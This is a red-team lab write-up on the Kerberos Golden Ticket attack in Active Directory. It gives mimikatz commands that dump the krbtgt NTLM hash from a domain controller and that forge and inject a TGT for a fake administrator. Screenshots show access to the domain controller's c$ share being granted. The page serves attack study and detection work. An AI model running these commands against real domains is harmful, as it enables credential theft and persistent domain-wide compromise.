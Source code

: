 ```yaml
---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---
```


# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted which is a requirement for a successful Golden Ticket attack.

## Execution

Extracting the krbtgt account's password `NTLM` hash:

{% tabs %}
{% tab title="attacker@victim-dc" %}
```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/kerberos-golden-krbtgt-hash.png)

Creating a forged golden ticket that automatically gets injected in current logon session's memory:

{% tabs %}
{% tab title="attacker@victim-workstation" %}
```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/kerberos-golden-create.png)

Checking if the ticket got created:

![](../../.gitbook/assets/kerberos-golden-klist.png)

Opening another powershell console with low privileged account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:

![](../../.gitbook/assets/kerberos-golden-denied.png)

However, switching back to the console the attacker used to create the golden ticket \(local admin\) and again attempting to access `c$` share of the domain controller - this time is a success:

![](../../.gitbook/assets/kerberos-golden-granted.png)

## Observations

![](../../.gitbook/assets/kerberos-golden-logon.png)

![](../../.gitbook/assets/kerberos-golden-share.png)

## References

{% embed url="https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=1515" %}

